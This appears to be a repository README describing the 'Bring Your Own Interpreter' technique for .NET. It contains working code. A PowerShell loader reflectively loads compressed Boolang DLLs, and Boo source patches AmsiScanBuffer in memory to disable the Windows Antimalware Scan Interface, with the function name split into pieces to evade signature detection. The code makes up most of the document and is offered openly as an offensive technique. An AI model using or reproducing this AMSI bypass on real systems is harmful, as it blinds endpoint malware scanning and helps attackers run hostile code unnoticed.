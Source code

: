 ### 1 - Introduction 

**What is .NET Assemblies :**

Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications. An assembly is a collection of types and resources that are built to work together and form a logical unit of functionality. Assemblies take the form of executable (.exe) or dynamic link library (.dll) files, and are the building blocks of .NET applications. 
They provide the common language runtime with the information it needs to be aware of type implementations.



- .NET assemblies can be executed by any .NET langage
- The function `Assembly.Load()` will reflectively load .NET Assemblies

>⚠️  **.NET Format Assemblies ≠ C Format Assemblies**

### 2 - BYOI Concept

this technique which was discovered [byt3bl33d3r](https://github.com/byt3bl33d3r) consists in using third party parts of the languages present in .NET for embedding a interpreter into a default .NET langage


```powershell
function Invoke-BoolangAmsiPatch {
    $BooLangDLL = @'<BOOLANG_DLL>'@
    $BooLangCompilerDLL = @'<BOOLANG_COMPILER_DLL>'@
    $BooLangParserDLL = @'<BOOLANG_PARSER_DLL>'@
    $BoolangExtensionsDLL = @'<BOOLANG_EXTENSION_DLL>'@

    function Load-Assembly($EncodedCompressedFile){
        $DeflatedStream = [IO.Compression.DeflateStream]::new([IO.MemoryStream][Convert]::FromBase64String($EncodedCompressedFile), [IO.Compression.CompressionMode]::Decompress)
        $UncompressedFileBytes = New-Object Byte[] (1900000)
        $DeflatedStream.Read($UncompressedFileBytes, 0, 1900000) | Out-Null
        return [Reflection.Assembly]::Load($UncompressedFileBytes)
    }
    $BooLangAsm = Load-Assembly($BooLangDLL)
    $BooLangCompilerAsm = Load-Assembly($BooLangCompilerDLL)
    $BooLangParserAsm = Load-Assembly($BooLangParserDLL)
    $BooSource = @'
}
```
the $BooSource Variable will contain the boolang code

```boo
import System
import System.Runtime.InteropServices

[DllImport("kernel32.dll", SetLastError: true, CharSet: CharSet.Unicode)]
public static def LoadLibrary(lpFileName as string) as IntPtr:
	pass
	
[DllImport("kernel32.dll", CharSet: CharSet.Ansi, ExactSpelling: true, SetLastError: true)]
public static def GetProcAddress(hModule as IntPtr, procName as string) as IntPtr:
	pass
	
[DllImport("kernel32.dll")]
public static def VirtualProtect(lpAddress as IntPtr, dwSize as int, flNewProtect as uint, ref lpfOldProtect as IntPtr) as bool:
	pass

public static def PatchMem(dll as string, function as string, patch as (byte)):
	try:
		oldProtect as IntPtr = 0
		library = LoadLibrary(dll)
		print ""
		print "[>] $(dll) address : $(library)"
		address = GetProcAddress(library, function)
		result = VirtualProtect(address, patch.Length, 0x40, oldProtect)
		Marshal.Copy(patch, 0, address, patch.Length)
		result = VirtualProtect(address, patch.Length, 0x20, oldProtect)
	except:
		print "[!] Error when Patching $(dll) : $(function)"
public static def Main():
	amsi_patch as (byte)
	if IntPtr.Size == 8:
		print "[*] x64"
		amsi_patch = array(byte, [0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3])
	else:
		print "[*] x86"
		amsi_patch = array(byte, [0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00])
	PatchMem("am"+"si.dll", "Am"+"si"+"Sc"+"AnBu"+"ffer", amsi_patch)
```
